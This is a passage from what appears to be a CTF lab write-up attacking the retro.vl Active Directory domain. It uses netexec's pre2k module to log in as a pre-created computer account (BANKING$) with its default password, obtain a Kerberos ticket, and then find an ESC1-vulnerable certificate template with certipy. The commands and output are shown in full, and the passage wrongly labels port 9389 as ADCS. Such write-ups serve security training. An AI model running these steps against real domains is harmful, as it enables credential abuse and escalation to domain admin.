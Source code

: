 > computer account. That one is older than me.
> 
> Best
> 
> James

Some googling leads us to a [Blogpost from trustedsec](https://trustedsec.com/blog/diving-into-pre-created-computer-accounts).
The gist is:
1. Pre created user accounts like `BANKING$` have a standard password which is the username in lowercase without the `$` → `banking`
2. Computer Accounts can be leveraged for Domain admin, if ADCS (Port 9389) is misconfigured via ESC1

The easiest way is to use the `pre2k` Module from `netexec`
```bash {hl_lines=7}
nxc ldap domain -u user -p pass -M pre2k
SMB         10.10.104.73    445    DC  [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:retro.vl) (signing:True) (SMBv1:False)
LDAP        10.10.104.73    389    DC  [+] retro.vl\trainee:trainee 
PRE2K       10.10.104.73    389    DC  Pre-created computer account: BANKING$
PRE2K       10.10.104.73    389    DC  [+] Found 1 pre-created computer accounts. Saved to /home/debian/.nxc/modules/pre2k/retro.vl/precreated_computers.txt
PRE2K       10.10.104.73    389    DC  [+] Successfully obtained TGT for banking@retro.vl
PRE2K       10.10.104.73    389    DC  [+] Successfully obtained TGT for 1 pre-created computer accounts. Saved to /home/debian/.nxc/modules/pre2k/ccache
```
This creates a Kerberos ticket for the `BANKING$` user which in my case is stored in `/home/debian/.nxc/modules/pre2k/ccache/banking.ccache`

To use this ticket we set 
```bash
export KRB5CCNAME=/home/debian/.nxc/modules/pre2k/ccache/banking.ccache
```
## 9389 - ESC1 abuse
First we check the current ADCS configuration via `certipy find`
```bash
echo -n dc.retro.vl > machine
certipy find -k -vulnerable -target $(<machine)
[...]
[*] Saved text output to '20241003111829_Certipy.txt'
cat 20241003111829_Certipy.txt
Certificate Authorities
  0
    CA Name                             : retro-DC-CA
    DNS Name                            : DC.retro.vl
    [...]
Certificate Templates
  0
    Template Name                       : RetroClients
    [...]
    Minimum RSA Key Length              : 4096
    [...]
    [!] Vulnerabilities
      ESC1                              : 'RETRO.VL\\Domain Computers' can enroll, enrollee supplies subject and template allows client authentication
```
